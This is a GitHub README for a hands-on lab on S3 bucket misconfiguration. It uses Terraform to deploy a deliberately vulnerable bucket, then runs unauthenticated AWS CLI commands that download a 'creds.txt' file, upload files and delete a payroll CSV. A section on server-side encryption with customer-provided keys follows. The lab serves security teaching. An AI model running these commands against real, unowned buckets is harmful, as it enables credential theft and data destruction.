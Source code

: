 # S3 Misconfiguration

## Follow the below instructions given to solve this Lab

### please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 2: Change Directory

```bash
cd /s3misconfiguration
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 7: Now lets perform all the possible attack scenario 

* Step 8: Lets first download the fishy files - change to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt /home/abhi/seasides/

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
* Broken Authentication
* Sensitive Information Disclosure 

# Defence with Encryption

Using Server Side encryption with Customer provided keys.

Step 1: Create a secrete file called secret.txt

```bash
echo "Welcome to Seasides, Your secret coupon is HASDJFH324878QWER" > secret.txt
```
Step 2: Lets generate a ecnryption key with AES-128-CBC encryption algorithm with openssl
note openssl is a widely used open-source cryptographic library and toolset

```bash
openssl enc -aes-128-cbc -k secret -P
```
Step 3: lets make the key an environmental variable

```bash
export key=<value of key>
```
Step 4: Lets upload the secret file along with the header encryption key
```bash
aws s3 cp secret.txt s3://$s3bucket/ --sse-c --sse-c-key $key
```

Now, Go to the console and try to access or view the secret file 

Step 5: Try to download the secret file 

```bash
aws s3 cp s3://$s3bucket/secret.txt .
```
It is clear that
* we wont be able to retrive or access those objects which have client side encryption.
* we wont be able to view the encrypted object in AWS Console

Step 6: Lets retrive it with our encryption key

```bash
aws s3 cp s3://$s3bucket/secret.txt . --sse-c --sse-c-key $key
```
Destroy the resources
```bash
terraform destroy -auto-approve
```
